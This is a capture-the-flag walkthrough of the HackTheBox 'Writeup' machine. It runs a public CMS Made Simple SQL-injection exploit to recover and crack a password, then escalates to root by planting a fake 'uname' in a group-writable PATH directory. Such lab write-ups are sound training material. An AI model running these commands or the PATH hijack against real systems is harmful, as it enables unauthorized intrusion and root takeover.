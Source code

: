 ```yaml
---
layout: post
title:  Writeup
has_children: no
parent: HackTheBox
date: 2019-06-08
nav_order: 20190608
difficulty: Easy
reading_time: 5 min
screenshots: /assets/images/Screenshots/Writeup/
tags: HacktheBox Linux Easy CMS-Made-Simple SQL-injection binary-hijacking-privesc B2R
---
```


{% include header.html %}
![IconTable.png]({{page.screenshots}}/IconTable.png)

***

{% include TOC.md %}

### Improved ability:

- CVE Research
- Source code review
- $PATH based privilege escalation

### Used tools:

- nmap
- searchsploit
- pspy64

***



## Introduction & Foothold:

Let's start with a common full **nmap** scan on the box:

```bash
$ nmap -A 10.10.10.138
```


![Screenshot from 2019-07-10 22-03-08]({{page.screenshots}}/Screenshot from 2019-07-10 22-03-08.png)

The only available ports are the **port 22** (with _OpenSSH 7.4p1_) and the  **port 80**, running _Apache httpd 2.4.25_.
Because of this version of OpenSSH doesn't have known vulnerability,  let's analyse the root and `/writeup/` folder (contained into the _robots.txt_) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.
![Screenshot from 2019-07-10 22-04-09]({{page.screenshots}}/Screenshot from 2019-07-10 22-04-09.png)

Let's move analyse the `/writeup/` folder:
![Screenshot from 2019-07-10 22-04-35]({{page.screenshots}}/Screenshot from 2019-07-10 22-04-35.png)

Here we can find some old writeups, but nothing very useful.
However, looking at the **source code**, we are able to find the first important information: the **CMS type**.
![Screenshot from 2019-07-10 22-05-06]({{page.screenshots}}/Screenshot from 2019-07-10 22-05-06.png)



Now that we know our target use **CMS Made Simple**, we can search online for public exploit.
Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```


## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (_46635_) is valid for every version under the 2.2.10.
Download and execute the script!

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```


Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```bash
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```

## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.![Screenshot from 2019-07-10 23-22-32]({{page.screenshots}}/Screenshot from 2019-07-10 23-22-32.png)

 After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed.
The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in $PATH and before the script identifies the original uname binary, _we can run arbitrary code as root and execute our escalation_ (that because the `10-uanme` process run with *UID=0*, so it runs as root)

$PATH contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138 password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.


## Trophy
```
The only way of discovering the limits of the possible is to venture a little way past them into the impossible.
- Arthur C. Clarke
```


{% include share.html %}
